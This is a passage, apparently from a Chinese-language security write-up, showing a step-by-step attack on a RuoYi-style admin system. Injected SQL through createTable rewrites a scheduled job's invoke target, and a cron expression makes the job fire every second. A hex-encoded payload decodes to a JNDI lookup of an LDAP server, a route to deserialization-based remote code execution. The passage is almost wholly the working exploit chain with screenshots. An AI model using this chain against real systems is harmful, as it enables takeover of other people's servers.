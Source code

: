 成功地绕过了它，并成功地执行  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```  
  
<table><thead><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.606061px solid rgb(216, 222, 228);"><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th></tr></thead><tbody><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.606061px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">分钟</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">小时</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">日</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">月</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.606061px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">星期</span></section></td></tr></tbody></table>  
```
* * * * * ?
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamRjaKULXibCvq4PxhjYtfpBvJQggZyjT2lDzmnyy0YIsBLkoc0iavMG7w/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
第二步：  
  
修改执行命令  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamvAaBDFAWLrOAYNxKicMqRjNvWicMibADUnw7hhuUj5DnIA5ldTbH3AxaQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
第三步：  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729 WHERE job_id = 1;')
```  
  
